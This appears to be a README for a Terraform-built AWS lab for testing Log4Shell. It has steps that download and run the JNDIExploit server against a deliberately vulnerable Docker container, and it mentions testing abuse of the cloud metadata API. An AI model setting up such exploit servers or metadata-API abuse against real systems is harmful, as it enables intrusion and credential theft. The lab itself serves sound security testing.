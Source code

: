 

## Customize this deployment

### Credentials 
- `provider.tf` file should outline path to aws config file along with the named profile you want to use.

- Input the public key you want to use to connect to the EC2 instance in the `variables.tf` file as the value of `public_key`.

### Naming Things 
- The names of all AWS resouces are prefixed with 'kat-' in the `main.tf` file.  If you don't want your resouces named after me, find and replace that value.


## Steps to Deployment

- Ensure you have a valid aws session credential
	``aws sso login --profile [named-prodile]``

- Terraform
	`terraform plan`
	`terraform apply --auto-approve`

## Connecting to your EC2 Instance

- You can use EC2 Instance Connect (SSH from the Browser) to connect to your EC2 instance. Ingress rules allowing this are include in the deployment
- If you configured a public key for the EC2 instance and allowed your IP in the security groups, you can directly SSH to the EC2 instance

## Getting the Java Exploit Server choochin'

Installation of the java server and environment during deployment is not working.  Once your EC2 is up and running, you'll want to install the following:
- `sudo yum install java-1.8.0-openjdk -y`
- `wget http://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip`
- `unzip JNDIExploit.v1.2.zip`
- `MY_IP=$(hostname -I | awk '{print $1}')`
- `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i $MY_IP -p 8888`

The JNDI Exploit Server needs to be running and receiving callbacks from the vulnerable docker container.

## Vulnarable Docker Container
This container will be listenting on 127.0.0.1:8080.
If you want to install curl in the container for testing the abuse of the metadata api:
`sudo docker exec vulnerable-app apk add curl`

## Testing Exploits

Instructions for starting and operating the [JNDI Exploit Server](http://web.archive.org/web/20211210111026/https://github.com/feihong-cs/JNDIExploit)

Instructions operating against the [vulnerable docker container](https://github.com/christophetd/log4shell-vulnerable-app)








